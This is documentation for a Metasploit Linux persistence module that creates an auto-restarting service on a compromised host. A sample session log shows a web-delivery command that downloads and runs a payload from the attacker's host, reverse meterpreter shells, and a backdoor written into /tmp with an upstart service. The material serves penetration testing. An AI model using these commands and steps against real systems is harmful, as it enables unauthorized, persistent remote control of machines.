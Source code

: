 ## Vulnerable Application

This module will create a service on the box, and mark it for auto-restart.
We need enough access to write service files and potentially restart services

Targets:

* CentOS 6
* Fedora >= 9, < 15
* Ubuntu >= 9.10, <= 14.10

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/init_sysvinit`
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

### SERVICE

The name of the service to create.  If not chosen, a random one is created.

### PAYLOAD_NAME

The name of the file to write with our shell if a non-cmd payload is used.  If not chosen, a random one is created.

### RESTART_LIMIT

The number of times to restart the service. If using a threaded payload (fetch), this is how many shells you may get. Defaults to 3

## Scenarios

### Ubuntu 14.04

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO HvGO7GyB --no-check-certificate http://111.111.1.111:8181/l; chmod +x HvGO7GyB; ./HvGO7GyB& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:52092) at 2025-02-16 10:52:49 -0500
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_upstart 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:2) exploit(linux/persistence/init_upstart) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/home/ubuntu) > sysinfo
Computer     : Ubuntu14.04
OS           : Ubuntu 14.04 (Linux 3.13.0-24-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/home/ubuntu) > getuid
Server username: root
(Meterpreter 1)(/home/ubuntu) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_upstart) > 
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Payloads in /tmp will only last until reboot, you want to choose elsewhere.
[+] The target appears to be vulnerable. /tmp/ is writable and system is upstart based
[*] Writing backdoor to /tmp//GXhkVaF
[*] Writing '/tmp//GXhkVaF' (250 bytes) ...
[*] Writing service: /etc/init/kKxVjJjUUOVq.conf
[*] Starting service
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/Ubuntu14.04_20250216.5324/Ubuntu14.04_20250216.5324.rc
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:53847) at 2025-02-16 10:53:24 -0500
```